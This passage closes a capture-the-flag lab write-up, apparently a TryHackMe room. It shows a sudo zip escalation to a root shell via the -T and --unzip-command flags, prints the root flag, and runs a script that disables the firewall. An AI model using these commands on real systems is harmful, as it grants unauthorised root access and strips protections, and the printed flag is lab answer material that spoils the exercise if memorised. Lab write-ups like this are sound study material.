 Lets ask gtfobins how to abuse this for shell spawn`

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

```
merlin@ubuntu:~$ zip
Copyright (c) 1990-2008 Info-ZIP - Type 'zip "-L"' for software license.
Zip 3.0 (July 5th 2008). Usage:
zip [-options] [-b path] [-t mmddyyyy] [-n suffixes] [zipfile list] [-xi list]
The default action is to add or replace zipfile entries from list, which
can include the special name - to compress standard input.
If zipfile and list are omitted, zip compresses stdin to stdout.
-f freshen: only changed files -u update: only changed or new files
-d delete entries in zipfile -m move into zipfile (delete OS files)
-r recurse into directories -j junk (don't record) directory names
-0 store only -l convert LF to CR LF (-ll CR LF to LF)
-1 compress faster -9 compress better
-q quiet operation -v verbose operation/print version info
-c add one-line comments -z add zipfile comment
-@ read names from stdin -o make zipfile as old as latest entry
-x exclude the following names -i include only the following names
-F fix zipfile (-FF try harder) -D do not add directory entries
-A adjust self-extracting exe -J junk zipfile prefix (unzipsfx)
-T test zipfile integrity -X eXclude eXtra file attributes
-y store symbolic links as the link instead of the referenced file
-e encrypt -n don't compress these suffixes
-h2 show more help
```

Technically we can abuse the `-T` flag that test a zip file integrity by running `--unzip-commands`

we create somefile and use `1` to zip faster

```
merlin@ubuntu:~$ touch somefile.txt
merlin@ubuntu:~$ ls
somefile.txt user.txt
merlin@ubuntu:~$ sudo zip 1.zip somefile.txt -T --unzip-command="sh -c /bin/bash"
adding: somefile.txt (stored 0%)
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we get our flag

```
root@ubuntu:/root# cat root.txt
THM{tomcat_ghost}
```

we find another `ufw` folder with a sh script

```
root@ubuntu:/root# cd ufw
root@ubuntu:/root/ufw# ls
ufw.sh
root@ubuntu:/root/ufw# ./ufw.sh
Firewall stopped and disabled on system startup
```

lol ok we control the firewall

nice room
